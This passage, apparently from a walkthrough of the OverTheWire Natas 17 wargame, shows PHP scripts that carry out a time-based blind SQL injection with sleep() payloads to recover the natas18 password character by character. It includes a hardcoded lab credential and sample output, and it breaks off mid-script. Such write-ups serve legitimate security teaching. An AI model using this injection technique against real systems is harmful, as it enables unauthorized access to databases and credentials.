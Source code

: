 ~~~~
    $query = urlencode("natas18\" AND IF(password LIKE BINARY \"%$character%\", sleep(5), null) #");
    $start = time();
    $r = get("http://natas17.natas.labs.overthewire.org/index.php?username=$query");
    $end = time();
    if ($end - $start > 4)
    {
        $library .= $character;
    }
}

var_dump($library);
~~~~

In theory, this should give us our library. Let's run it.

`string(24) "dghjlmpqsvwxyCDFIKOPR047"`

Haha! We did it! Let's use the sleep strategy again, in the same loop we've been using for the past few challenges.

~~~~
<?php

function get($url)
{
    $username = "natas17";
    $password = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw";
    $string = base64_encode("$username:$password");

    $options = [
        'http' => [
            'header'  => "Content-Type: application/x-www-form-urlencoded\r\n" . "authorization: Basic $string",
            'method'  => 'GET'
        ]
    ];

    $context  = stream_context_create($options);
    $raw_response = file_get_contents($url, false, $context);
    return $raw_response;
}


$c = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
$library = '';


for ($i = 0; $i < strlen($c); $i++)
{
    $character = $c[$i];
    $query = urlencode("natas18\" AND IF(password LIKE BINARY \"%$character%\", sleep(5), null) #");
    $start = time();
    $r = get("http://natas17.natas.labs.overthewire.org/index.php?username=$query");
    $end = time();
    if ($end - $start > 4)
    {
        $library .= $character;
    }
}

var_dump($library);

$password = '';
~~~~
